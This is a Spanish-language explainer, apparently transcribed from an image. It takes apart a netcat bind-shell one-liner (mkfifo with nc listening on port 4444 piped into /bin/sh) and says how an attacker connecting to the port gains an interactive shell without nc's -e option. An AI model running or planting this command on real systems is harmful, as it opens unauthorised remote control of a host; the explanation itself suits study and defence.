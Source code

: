 Análisis por partes del comando:

```bash
mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```

---

1. `mkfifo /tmp/f`

* Crea un archivo especial tipo **named pipe** (FIFO) en `/tmp/f`.
* Es un canal de comunicación unidireccional que permite enviar y recibir datos como si fuera un archivo.

---

2. `nc -lvnp 4444 < /tmp/f`

* `nc`: netcat, utilidad para conexiones TCP/UDP.
* `-l`: modo **listener**, espera conexiones entrantes.
* `-v`: verbose, muestra información.
* `-n`: no hace resolución DNS (usa IPs directas).
* `-p 4444`: puerto en que escucha.
* `< /tmp/f`: redirecciona la entrada estándar de netcat desde la named pipe `/tmp/f`.

---

3. `| /bin/sh > /tmp/f 2>&1`

* `|`: canaliza la salida estándar de netcat hacia la entrada estándar de `/bin/sh` (intérprete de comandos).
* `/bin/sh`: shell que ejecuta los comandos recibidos.
* `> /tmp/f`: redirecciona la salida estándar del shell hacia `/tmp/f` (la named pipe).
* `2>&1`: redirecciona la salida de errores estándar (stderr) a la salida estándar (stdout), para que también vaya a `/tmp/f`.

---

4. `rm /tmp/f`

* Elimina el named pipe `/tmp/f` cuando se cierra la conexión.

---

### Flujo completo

* El named pipe `/tmp/f` conecta la entrada y salida entre `nc` y `sh`.
* Cuando un atacante se conecta al puerto 4444, netcat recibe la entrada desde la pipe y la pasa al shell (`sh`).
* La salida y errores del shell se escriben en la pipe, que netcat envía de vuelta al atacante.
* Así se crea un canal bidireccional interactivo para controlar el shell remoto.

---

Resumen: el comando arma un bind shell sin usar la opción `-e` (no soportada en muchas versiones), usando un pipe para conectar la entrada y salida entre netcat y el shell.
